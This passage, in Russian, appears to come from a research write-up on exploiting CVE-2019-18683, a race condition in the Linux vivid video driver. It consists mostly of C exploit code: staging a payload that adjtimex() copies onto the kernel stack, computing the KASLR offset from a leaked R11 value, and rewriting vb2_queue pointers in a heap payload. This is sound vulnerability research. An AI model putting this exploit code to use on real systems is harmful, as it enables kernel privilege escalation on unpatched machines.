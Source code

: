 Так инициализируется память, содержимое которой будет скопировано в ядерный стек с помощью системного вызова `adjtimex()`:

```c
#define PAYLOAD2_SZ 208

void init_stack_payload()
{
	for_stack = mmap(NULL, MMAP_SZ, PROT_READ | PROT_WRITE,
					MAP_SHARED | MAP_ANONYMOUS, -1, 0);
	if (for_stack == MAP_FAILED)
		err_exit("[-] mmap");

	printf(" [+] payload for_stack is mmaped to %p\n", for_stack);

	/* Don't touch the second page (needed for userfaultfd) */
	memset(for_stack, 0, PAGE_SIZE);

	timex_addr = for_stack + PAGE_SIZE - PAYLOAD2_SZ + 8;
	printf(" [+] timex of size %lu is at %p\n",
				sizeof(struct timex), timex_addr);
}
```

Как было сказано выше, после достижения состояния гонки поток, читающий ядерный журнал, извлекает из него следующую информацию:
  - значение регистра `RSP`, чтобы вычислить адрес верхушки стека;
  - значение регистра `R11`, которое является указателем на некоторый участок кода ядра. Это значение помогает вычислить случайный отступ `KASLR`, по которому расположен код ядра: <br/>
  ```c
	#define R11_COMPONENT_TO_KASLR_OFFSET 0x195d80d
	#define KERNEL_TEXT_BASE 0xffffffff81000000

	kaslr_offset = strtoul(r11, NULL, 16);
	kaslr_offset -= R11_COMPONENT_TO_KASLR_OFFSET;
	if (kaslr_offset < KERNEL_TEXT_BASE) {
		printf("bad kernel text base 0x%lx\n", kaslr_offset);
		err_exit("[-] kmsg parsing for r11");
	}
	kaslr_offset -= KERNEL_TEXT_BASE;
  ```
  <br/>

Далее поток, прочитавший `kmsg`, адаптирует адреса в полезной нагрузке для ядерного стека и кучи. Это самая интересная и сложная часть атаки. При чтении данного кода полезно обратиться к отладочному выводу эксплойта (приведен выше).

```c
#define TIMEX_STACK_OFFSET 0x1d0

#define LIST_OFFSET 24
#define OPS_OFFSET 64
#define CMD_OFFSET 172

struct vivid_buffer *vbuf = (struct vivid_buffer *)xattr_addr;
struct vb2_queue *vq = NULL;
struct vb2_mem_ops *memops = NULL;
struct vb2_plane *vplane = NULL;

printf("Adapt payloads knowing that kstack is 0x%lx, kaslr_offset 0x%lx:\n",
	kstack,
	kaslr_offset);

/* point to future position of vb2_queue in timex payload on kernel stack */
vbuf->vb.vb2_buf.vb2_queue = (struct vb2_queue *)(kstack - TIMEX_STACK_OFFSET);
vq = (struct vb2_queue *)timex_addr;
```

[0]: https://nvd.nist.gov/vuln/detail/CVE-2019-18683
[0.1]: https://www.offensivecon.org/speakers/2020/alexander-popov.html
[0.2]: https://elixir.bootlin.com/linux/v5.4/source/drivers/media/platform/vivid
[1]: https://youtu.be/mb4YHyLy0Zc
[1.1]: https://www.kernel.org/doc/html/latest/media/v4l-drivers/vivid.html
[2]: https://www.openwall.com/lists/oss-security/2019/11/02/1
[3]: https://github.com/google/syzkaller/
[4]: https://lore.kernel.org/lkml/CAHk-=wgE-veRb7+mw9oMmsD97BLnL+q8Gxu0QRrK65S2yQfMdQ@mail.gmail.com/
[5]: https://lore.kernel.org/lkml/20200116140218.1328022-1-alex.popov@linux.com/T/#u
[6]: https://lore.kernel.org/lkml/20200116095220.7368a604@gandalf.local.home/
[7]: https://lore.kernel.org/lkml/20200117225900.16340-1-alex.popov@linux.com/T/#u
[9]: https://duasynt.com/blog/linux-kernel-heap-spray
[10]: https://twitter.com/andreyknvl
[11]: https://github.com/xairy
[12]: https://www.ptsecurity.com/ww-en/
[13]: https://grsecurity.net/features
[14]: https://community.arm.com/developer/ip-products/processors/b/processors-ip-blog/posts/enhancing-memory-safety
